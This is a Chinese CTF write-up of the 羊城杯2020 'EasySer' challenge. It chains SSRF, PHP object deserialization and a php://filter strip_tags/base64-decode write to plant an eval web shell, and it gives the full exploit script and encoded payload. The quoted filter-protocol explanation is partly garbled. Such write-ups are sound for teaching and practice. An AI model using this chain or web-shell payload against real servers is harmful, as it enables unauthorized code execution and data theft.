


# 羊城杯2020-EasySer

首先打开网页：



扫到一个robots.txt，访问后提示我们访问star1.php



查看源码发现提示：` <!--  小胖说用个不安全的协议从我家才能进ser.php呢！  !-->`

这里可能存在ssrf漏洞，这里使用http协议进行访问，因为http相对于https是不安全的。

```
http://127.0.0.1/ser.php
```

提交后即可获得ser.php的源码。

```
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

很明显要我们利用危险函数写入shell，这里链子不难，重点是源码会在我们写入的shellcode前添加一个死亡die。并且还有php标签也会影响shellcode。但是我们可以用`string.strip_tags`将`<?php?>`全部删掉再base64解码。

## 知识点： **string.strip.tags-------从字符串中去除HTML、PHP标签，是一个非常非常重要的函数**

```
string.strip.tags-------从字符串中去除HTML、PHP标签，是一个非常非常重要的函数
filter协议
php://filter
是一种设计用来允许过滤器程序在打开时成为流的封装协议。这对于单独具有完整功能的文件函数非常有用，否则就没有机会在读取内容之前将过滤器应用于流之上。
该协议语法为：php://filter:/= 比如 php://filter:/resource=http://www.baidu.com
使用 php://filter 获取网页内容：<?php url=http://www.phpfamily.cn;url=http://www.phpfamily.cn; url=http://www.phpfamily.cn;data =
file_get_contents(‘php://filter/resource=’ . $url); echo $data;
//输出结果我http://www.phpfamily.cn页面的内容 php://filter 的 参数列表参数功能read读取


write写入 resource数据来源 read参数值可为 string.strip_tags： 将数据流中的所有html标签清除
string.toupper： 将数据流中的内容转换为大写 string.tolower： 将数据流中的内容转换为小写
convert.base64-encode： 将数据流中的内容转换为base64编码 convert.base64-decode：
与上面对应解码为典型的文件包含漏洞。我们可以通过构造含有漏洞的语句，查看想要看的代码：
file=php://filter/convert.base64-encode/resource=index.php
。再将得到的base64码解码即可。
```

然后这题还是很逆天源码里根本没有反序列化的点。只能用arjun爆破传参然后猜测反序列化的起点然后构造链子。

Arjun爆破出来两个参数是c和path

然后构造链子：

```
GWHT::__construct()->GWHT::__toString()->Yongen::hasaki()
```

exp：（用`string.strip_tags` 将`<?php?>`全部删掉再base64解码）

```
<?php

class GWHT{
    public $hero;
}
class Yongen{ //flag.php
    public $file;
    public $text;
}

$a=new GWHT;
$a->hero=new Yongen;
$a->hero->file='php://filter/write=string.strip_tags|convert.base64-decode/resource=1.php';
$a->hero->text='PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+';

echo urlencode(serialize($a));
```

**payload:**

```
/star1.php?path=http://127.0.0.1/ser.php&c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A73%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.strip_tags%7Cconvert.base64-decode%2Fresource%3D1.php%22%3Bs%3A4%3A%22text%22%3Bs%3A32%3A%22PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2B%22%3B%7D%7D
```

然后蚁剑连接1.php，在根目录下拿到flag。


